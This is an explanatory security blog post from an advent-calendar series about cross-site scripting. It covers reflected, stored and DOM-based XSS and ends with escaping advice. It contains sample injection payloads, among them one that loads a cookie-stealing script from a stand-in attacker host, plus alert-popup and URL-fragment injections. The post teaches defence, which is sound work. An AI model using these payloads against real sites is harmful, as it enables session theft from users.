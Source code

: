 ```yaml
---
title: Cross Site Scripting (XSS)
lead: At the beginning, web pages were very static. They were written in HTML, and the web browser had one job, to render the HTML to a page filled with text, images and links. After a few years, the developers wanted more, and JavaScript got introduced.Together with JavaScript came a new breed of vulnerabilities, where the attackers could exploit the possibility to run code in browsers, this was called Cross Site Scripting or XSS.
author: Stian Fredrikstad
links:
  - title: CSRF
    link: https://security.christmas/2018/4
    body: #4 about Cross Site Request Forgery
  - title: Injections
    link: https://security.christmas/2018/8
    body: #8 about Injections
---
```


JavaScript has a lot of possibilities, and a lot of responsibility in modern web applications. First of all, JavaScript can see and read (almost) everything that is sent to the browser, e.g. all the countermeasures we wrote about [CSRF](https://security.christmas/2018/4) some days ago, are no longer valid. This is because JavaScript can read everything, even if it is hidden on the page, send and read as the user.

In addition, JavaScript can read secrets hidden under the domain, like the session cookie. There are countermeasures against it, because JavaScript does not need to explicitly set the cookie on the requests, this is done by the browser automatically. By setting the flag `HttpOnly`, a cookie can never be read by JavaScript, only sent as a header on http requests. But it is a nice example of what we can do, so let us use it.

An XSS can happen in many circumstances, but the main reason is that a user can inject unescaped HTML in a website.This is similar to what we discussed in the post about [Injections](https://security.christmas/2018/8), and in HTML (or XML), the `<`, `>` and `"` are very important for the markup, there are more, but let us start with those. An escaped version of `<` is `&lt;` and `>` is `&gt;` and `"` is `&quot;`, short for "less than, "greater than" and quote if you want to remember those.

### Reflected XSS

If we imagine we are Google. We have a search input field named `q`, where the query is inserted, and the query is put as a get parameter in the url. If we insert `santa`, and click search, the url will be `https://www.google.com?q=santa`. And the input field will render like `<input type="text" name="q" value="santa" />`. If the rendering of the `value` in the input field is not escaped. An attack could be to insert

```html
santa" /><script src="https://www.santastealscookies.com/cookiestealer"></script>
```

This will render the input field like

```html
<input
  type="text"
  name="q"
  value="santa"
/><script src="https://www.santastealscookies.com/cookiestealer"></script
>" />
```

As we see, `" />` closes the input field and let the attacker continue to write HTML. Which in this case let santa steal all the cookies from the users who click on the link with the malicious input.

This is called "Reflected XSS", because the input from the user is reflected on the website But this does also limit the reach of such an attack, because the user often needs to click on something before it works.

### Stored XSS

We also have the "Stored XSS", which is quite similar to "reflected XSS", but here the malicious input is stored on the server, and could possibly affect all users. If Santa creates a blog where he writes about his Christmas preparations, he would likely create a comment section for input from his fans. The comments are printed out in the bottom of each blog post, but Santa forgot to escape the comments on the web server. If the Grinch finds this, and creates a comment with the input:

```html
<script>
  alert('The Santa does not exist');
</script>
```

All the readers of that blog post are met by a popup with the text "Santa does not" exist.

As we see in this last example, the XSS does not need to happen in an attribute. It can happen all places where text is rendered. That is why the web server should always escape everything, except those places you actually write HTML-code.

### DOM based XSS

The last type of XSS is "DOM based XSS". The main difference between this and the other two, is that it all happens in JavaScript. JavaScript has methods like `innerHTML`, which can be used to fill another element with text, but it does also allow HTML to be written.

As a simple example, we have a `div` with the id `website`, where we want to display the url of the current website. Code to fill this could look like:

```html
<script>
  document.getElementById('website').inneHTML = document.baseURI;
</script>
```

An example of a malicious url would be `https://www.santaisbad.com/#<script>alert("Santa is good");</script>`. And we will get the well-known alert box. But the most important is that the developer does not even know that the website is being exploited. The web browser does not send the `#`, and everything after it to the server, which makes it difficult discover.

In addition to escaping what we render, to get rid of "DOM based XSS", we need to go through the code and use the correct methods (or even delete vulnerable code where this can happen, like `eval`). Instead of using innerHTML, we should have used innerText and so on.

As a final reminder, escape everything, and take care when rendering mixes of text and HTML.

In many frameworks, both server and client side, it is the default behaviour to escape output, but you need to check this to be sure.
